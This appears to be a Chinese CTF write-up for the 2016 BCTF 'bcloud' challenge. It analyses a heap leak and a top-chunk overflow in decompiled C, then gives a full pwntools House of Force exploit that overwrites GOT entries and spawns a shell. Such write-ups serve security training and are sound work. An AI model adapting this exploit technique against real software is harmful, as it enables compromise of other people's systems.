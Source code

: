 ```yaml
---
title: 2016 BCTF bcloud (House Of Force)
date: 2018-04-17 21:24:31
categories:
tags:
	- CTF
	- House Of Force

---
```



## 基本分析

题目下载链接

https://github.com/ctfs/write-ups-2016/tree/master/bctf-2016/exploit/bcloud-200

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

程序大概是一个云笔记管理系统。

1. 新建note，根据用户的输入x申请x+4的空间作为note的大小。
2. 展示note，啥功能也没有。。
3. 编辑note，根据用户指定的 note 编辑对应的内容。
4. 删除note，删除对应note。
5. 同步note，标记所有的note已经被同步。

### 初始化名字

**在程序初始化的时候有两个漏洞。**

这里如果程序读入的名字为64个字符，那么当程序在使用info函数输出对应的字符串时，就会输出对应的tmp指针内容，也就是说**泄露了堆的地址**。

**输入的大小为0x40时最后的0x00 会溢出到*tmp，紧接着会malloc(0x40)覆盖掉输入的0x00截断。**

```c
unsigned int init_name(){
  char s; // [esp+1Ch] [ebp-5Ch]
  char *tmp; // [esp+5Ch] [ebp-1Ch]
  unsigned int v3; // [esp+6Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&s, 0, 0x50u);
  puts("Input your name:");
  read_str(&s, 0x40, '\n');
  tmp = (char *)malloc(0x40u);
  name = tmp;
  strcpy(tmp, &s);
  info(tmp);
  return __readgsdword(0x14u) ^ v3;
}
```

### 初始化组织和org的时候存在漏洞

```c
unsigned int init_org_host(){
  char s; // [esp+1Ch] [ebp-9Ch]
  char *v2; // [esp+5Ch] [ebp-5Ch]
  char v3; // [esp+60h] [ebp-58h]
  char *v4; // [esp+A4h] [ebp-14h]
  unsigned int v5; // [esp+ACh] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(&s, 0, 0x90u);
  puts("Org:");
  read_str(&s, 64, 10);
  puts("Host:");
  read_str(&v3, 64, 10);
  v4 = (char *)malloc(0x40u);
  v2 = (char *)malloc(0x40u);
  org = v2;
  host = v4;
  strcpy(v4, &v3);
  strcpy(v2, &s);
  puts("OKay! Enjoy:)");
  return __readgsdword(0x14u) ^ v5;
}
```

当读入组织时，给定 0x40 字节，会覆盖 v2 的低地址。与此同时，我们可以知道 v2 是与 top chunk 相邻的 chunk，而 v2 恰好与 org 相邻，那么由于在 32 位程序中，一般都是 32 位全部都使用，这里 v2 所存储的内容，几乎很大程度上都不是 `\x00` ，所以当执行 strcpy 函数向 v2 中拷贝内容时，很有可能会覆盖top chunk。这就是漏洞所在。

## 利用

1. `get_name` 处利用漏洞，拿到 `heap` 的地址，计算 `top chunk` 的地址
2. `house of force` 分配到 `note_ptr_table` 的地址
3. 利用 `edit` 功能实现任意地址写
4. 把`free@got` 改成 `puts@plt`，实现任意地址读
5. 读 `puts@got` 拿到 `libc` 的基地址
6. 修改 `aoti@got` 为 `system`
7. 发送 `sh` , 触发 `aoti("sh")`, 实际执行的是 `system("sh")`

### 完整利用

```python
#/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# context.terminal = ['tmux', 'splitw', '-h']
# context(log_level='debug')

free_got = 0x0804B014
puts_plt = 0x08048520
puts_got = 0x0804B024

p = process("./bcloud")
pause()
p.recvuntil("Input your name:")
p.send("a" * 0x40)
p.recv(0x44)
p.recv(0x44)
heap = u32(p.recv(4)) - 0x8
top_chunk_addr = heap + 216
log.info("got heap: " + hex(heap))
log.info("got top_chunk_addr: " + hex(top_chunk_addr))
pause()
# p.recvuntil("Org:")
p.send("b" * 0x40)
payload = p32(0xffffffff)  #  top chunk 的 size 位
payload += "c" * (0x40 - len(payload))
p.recvuntil("Host:")
p.send(payload)
bss_addr = 0x0804B120   #  note_ptr_table 的地址
evil_size = bss_addr - 8 - top_chunk_addr  # 计算一个size , 用于在第二次 malloc 是返回 bss_addr
log.info("evil_size: " + hex(evil_size))
log.info("set top chunk size: 0xffffffff")
pause()



p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(evil_size-8-4))   # malloc(len + 4), note0
p.recvuntil("Input the content:")
p.sendline("a" * 4)


## 
p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(0x40))       #  此时分配到 note1,  note1 ---> bss_addr
p.recvuntil("Input the content:")
payload = p32(free_got)
payload += p32(bss_addr)  # 为了维持控制，使得 note_ptr_table[1] 的值始终为 note_ptr_table 的地址
p.sendline(payload)


## note 2
p.recvuntil("option--->>")
p.sendline("1")
p.recvuntil("note content:")
p.sendline(str(0x40))
p.recvuntil("Input the content:")
p.sendline("a" * 4)


log.info("note0--->free@got , note1--->ptr_table")


pause()
p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(1))
p.recvuntil("Input the new content:")
payload = p32(free_got)
payload += p32(bss_addr)
payload += p32(free_got)   # target addr , 要写的地址
payload += p32(puts_got)
p.sendline(payload)


p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(2))
p.recvuntil("Input the new content:")
p.sendline(p32(puts_plt))   # data to write，要写的数据
log.info("free@got ---> puts_plt")



pause()
p.recvuntil("option--->>")
p.sendline("4")
p.recvuntil("Input the id:")
p.sendline(str(3))   # free -> puts , get puts addr  
libc = u32(p.recvuntil("Delete success.")[1:5]) - 0x5fca0 # readelf -a libc.so.6| grep puts  
system = libc + 0x3ada0   # readelf -a libc.so.6| grep system  , get system offset
log.info("libc: " + hex(libc))
log.info("system: " + hex(system))


pause()
p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(1))
p.recvuntil("Input the new content:")
aoti_got = 0x0804B03C   # IDA , 
payload = p32(free_got)
payload += p32(bss_addr)
payload += p32(aoti_got)
p.sendline(payload)


p.recvuntil("option--->>")
p.sendline("3")
p.recvuntil("Input the id:")
p.sendline(str(2))
p.recvuntil("Input the new content:")
p.sendline(p32(system))
log.info("aoti--->system")
pause()

p.sendline("/bin/sh")
p.interactive()
```



## 参考

[Attack Top Chunk之 bcloud](http://blog.hac425.top/2018/03/21/tack_top_chunk_bcloud.html)

[BCTF bcloud - Exploitation 150](http://uaf.io/exploitation/2016/03/20/BCTF-bcloud.html)

[House Of Force](https://ctf-wiki.github.io/ctf-wiki/pwn/heap/house_of_force/#2016-bctf-bcloud)

